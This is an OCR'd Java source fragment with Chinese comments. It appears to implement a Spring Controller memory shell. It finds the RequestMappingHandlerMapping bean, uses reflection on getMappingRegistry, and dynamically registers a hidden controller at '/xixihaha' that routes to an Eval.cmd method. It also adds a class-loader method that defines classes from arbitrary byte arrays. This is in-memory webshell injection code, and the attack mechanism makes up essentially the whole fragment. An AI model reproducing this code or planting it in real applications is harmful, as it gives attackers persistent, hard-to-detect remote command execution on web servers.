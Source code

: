 ```java
//            // 遍历所有的 bean 对象
            for (Map.Entry<String, Object> entry : beans.entrySet()) {
                String beanName = entry.getKey();
                Object beanInstance = entry.getValue();

                // 在这里处理每个 bean 对象，可以输出 bean 的名称或执行其他操作
//                System.out.println("Bean Name: " + beanName);
//                System.out.println("Bean Class: " + beanInstance.getClass().getName());
                if ("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping".equals(beanInstance.getClass().getName())){
                    handlerMapping =(RequestMappingHandlerMapping) beanInstance;
                    break;
                }
            }

        }catch (Exception e){
            System.out.println(handlerMapping);
            System.out.println(e);
        }
        System.out.println("获取 RequestMappingHandlerMapping 的实例 bean ");
        // 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = null;
        try {
            method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        // 属性被 private 修饰，所以 setAccessible true
        method.setAccessible(true);
        System.out.println("初始化 AbstractHandlerMethodMapping 的 getMappingRegistry 方法完成");

        // 通过反射获得该类的cmd方法
        Method method2 = null;
        try {
            method2 = Eval.class.getMethod("cmd");
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        }
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/xixihaha");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        Eval injectToController = new Eval(null);
        // 将该controller注册到Spring容器
        handlerMapping.registerMapping(info, injectToController, method2);

    }

    Eval(java.lang.ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        // 调用父类的defineClass函数 , 相当于自定义加载类
        //这句代码将返回一个 java.lang.Class 对象。这个类对象表示通过字节数组 b 中的类文件数据动态加载的类。
        // defineClass 方法用于将二进制数据转换为类的实例。
        return super.defineClass(b, 0, b.length);
```